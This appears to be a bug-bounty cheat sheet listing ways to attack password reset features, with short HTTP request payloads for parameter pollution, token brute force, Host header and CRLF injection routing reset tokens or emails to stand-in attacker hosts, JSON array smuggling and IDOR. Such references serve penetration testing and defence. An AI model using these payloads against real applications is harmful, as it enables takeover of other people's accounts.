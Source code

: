 ```yaml
---
description: Below are some references for the Password Reset Functionality attacks.
---
```


# Password Reset Functionality

## Concept

In this vulnerability attacker tries to attack the password rest functionality of the application, if the attacker is successful in doing so this might lead to full account takeover, Below are some way to exploit this attack.

## Ways to bypass

### Include your email as second parameter

```
POST  /reset
[....]
email=victim@xyz.com&email=attacker@abc.com
```

### Brute force the password reset token

```
POST  /reset
[....]
email=victim@xyz.com&token={bruteforce}
```

### Try to use reset token to victims account

```
POST  /reset
[....]
email=victim@xyz.com&token={yourtoken}
```

### Host header injection (try changing the host, this might lead to passing the token to attackers server)

```
POST  /reset
Host: Attacker.com
```

### Try figuring how the tokens are generated

```
Like
They might be generated based on timestamp.
They might be generated based on the user id.
They might be generated based on the email id.
```

### CRLF Injection

```
POST  /reset
[....]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

```
 CLRF: 
 POST /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

### Business logic

```markup
While inviting users into your account/organization, 
you can also try inviting company emails and add a new field
"password": "example123". or "pass": "example123" in the 
request. you may end up resetting a user password.
(company email can be found here 
hunter.io)
```

### JSON array

```
POST  /reset
[....]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

### Token leakage via refer header

```
POST  /reset
[....]
Referer:https://xyz.com/token={token}
```

### IDOR for password reset (we can change the id parameter)

```
POST  /reset
[....]
id=1234&
```

### Some other ways

* Race condition
* Completely remove the token
* change it to 00000000...
* use null/nil value
* try expired token
* Reusing the old password reset token
* try an array of old tokens
* change 1 char at the begin/end to see if the token is evaluated
* use unicode char jutzu to spoof email address
* try victim@email.com\&attacker@email.com use %20 or | as separators
* change request method (get, put, post etc) and/or content type (xml<>json)
* match bad response and replace with good one
* use super long string

